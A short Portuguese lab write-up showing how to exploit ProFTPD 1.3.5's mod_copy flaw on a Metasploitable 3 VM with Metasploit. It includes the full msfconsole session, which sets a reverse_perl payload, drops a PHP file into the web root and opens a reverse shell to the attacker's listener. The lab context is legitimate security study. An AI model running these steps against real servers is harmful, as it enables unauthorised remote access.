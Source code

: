 Esses testes ocorrem em uma VM [metasploitable 3](https://github.com/rapid7/metasploitable3) com Linux. Que até a escrita deste texto era a versã mais atual do Metasploitable.

### Explorando com o ``proftpd_modcopy_exec``

Este *exploit* explora comandos do ProFTPD versão 1.3.5. No qual um cliente não autorizado pode copiar arquivos para qualquer parte do sistema. A copia é realizada com as permissões do usuário que executa o ProFTPD.

Assim, executando esse exploit (``proftpd_modcopy_exec``), ele copia um arquivo PHP (``rat7YM.php``) para o diretório padrão do servidor HTTP (``/var/www/html``) que está executando PHP. Depois disso é criado um shell remoto através do arquivo PHP malicioso e a atacante/PenTester.

```console
msf6 > use exploit/unix/ftp/proftpd_modcopy_exec
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set payload payload/cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set SITEPATH /var/www/html
SITEPATH => /var/www/html
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set RHOSTS 192.168.56.6
RHOSTS => 192.168.56.6
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > set LHOST 192.168.56.5
LHOST => 192.168.56.5
msf6 exploit(unix/ftp/proftpd_modcopy_exec) > options

Module options (exploit/unix/ftp/proftpd_modcopy_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS     192.168.56.6     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       HTTP port (TCP)
   RPORT_FTP  21               yes       FTP port
   SITEPATH   /var/www/html    yes       Absolute writable website path
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path to the website
   TMPPATH    /tmp             yes       Absolute writable path
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.56.5     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   ProFTPD 1.3.5


msf6 exploit(unix/ftp/proftpd_modcopy_exec) > exploit

[*] Started reverse TCP handler on 192.168.56.5:4444
[*] 192.168.56.6:80 - 192.168.56.6:21 - Connected to FTP server
[*] 192.168.56.6:80 - 192.168.56.6:21 - Sending copy commands to FTP server
[*] 192.168.56.6:80 - Executing PHP payload /rat7YM.php
[*] Command shell session 1 opened (192.168.56.5:4444 -> 192.168.56.6:38251) at 2022-09-20 09:25:57 -0400
```